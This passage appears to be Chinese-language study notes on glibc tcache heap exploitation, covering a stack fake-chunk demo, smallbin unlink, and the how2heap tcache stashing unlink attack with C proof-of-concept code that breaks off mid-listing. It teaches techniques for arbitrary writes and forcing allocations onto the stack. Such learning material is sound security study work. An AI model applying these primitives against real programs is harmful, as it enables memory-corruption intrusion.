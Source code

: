    ```c
   
       fprintf(stderr, "Freeing the overwritten pointer.\n");
       free(a);
   
       fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
       fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
   }
   ```

   运行结果：

   ![image-20240719163603904](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191636207.png)

   攻击之后的目的是，去控制栈上的内容。malloc 一块 chunk ，然后我们通过在**栈上 fake 的 chunk**，然后去 free 掉他，我们会发现，tcache中会出现栈上fake_chunk存放next指针的地址：

   ![image-20240719165120936](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191651224.png)

   通过一次malloc就能申请到该fake_chunk，从而控制栈上的数据。

### 5. smallbin unlink

1. 在 small bin 中包含有空闲块的时候，会同时将同大小的其他空闲块，放入 tcache 中，此时也会出现**解链操作** unlink ，但相比于 unlink 宏，缺少了链完整性校验。因此，原本 unlink 操作在该条件下也可以使用。



### 6. tcache stashing unlink attack

1. 这种攻击利用的是 tcache bin 有剩余 (数量小于 `TCACHE_MAX_BINS` ) 时，**同大小的 small bin** 会放进 tcache 中 (这种情况可以用 `calloc` 分配同大小堆块触发，因为 **`calloc` 分配堆块时不从 tcache bin 中选取**)。在获取到一个 `smallbin` 中的一个 chunk 后，如果 **tcache 仍有足够空闲位置**，会**将剩余的 small bin 链入 tcache** ，在这个过程中**只对第一个 bin 进行了完整性检查**，后面的**堆块的检查缺失**。当攻击者可以写一个 small bin 的 bk 指针时，其可以在**任意地址上写一个 libc 地址** (类似 `unsorted bin attack` 的效果)。构造得当的情况下也可以分配 fake chunk 到任意地址。

2. 这里以 `how2heap` 中的 [tcache_stashing_unlink_attack.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/tcache_stashing_unlink_attack.c) 为例：

   我们按照**释放的先后顺序**称 `smallbin[sz]` 中的两个 chunk 分别为 chunk0 和 chunk1。我们修改 chunk1 的 `bk` 为 `fake_chunk_addr`。同时还要在 `fake_chunk_addr->bk` 处提前写一个**可写地址** `writable_addr` 。调用 `calloc(size-0x10)` 的时候会返回给用户 chunk0 (这是因为 smallbin 的 `FIFO` 分配机制)，假设 `tcache[sz]` 中有 5 个空闲堆块，则有足够的位置容纳 `chunk1` 以及 `fake_chunk` 。在源码的检查中，**只对第一个 chunk 的链表完整性做了检测** `__glibc_unlikely (bck->fd != victim)` ，后续堆块在放入过程中并没有检测。

   

   因为 tcache 的分配机制是 `LIFO` ，所以位于 `fake_chunk->bk` 指针处的 `fake_chunk` 在链入 tcache 的时候反而会放到链表表头。在下一次调用 `malloc(sz-0x10)` 时会返回 `fake_chunk+0x10` 给用户，同时，由于 `bin->bk = bck;bck->fd = bin;` 的 unlink 操作，会使得 `writable_addr+0x10` 处被写入一个 libc 地址：

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   
   int main(){
       unsigned long stack_var[0x10] = {0};
       unsigned long *chunk_lis[0x10] = {0};
       unsigned long *target;
   
       fprintf(stderr, "This file demonstrates the stashing unlink attack on tcache.\n\n");
       fprintf(stderr, "This poc has been tested on both glibc 2.27 and glibc 2.29.\n\n");
       fprintf(stderr, "This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
       fprintf(stderr, "The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
       fprintf(stderr, "This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");
   ```
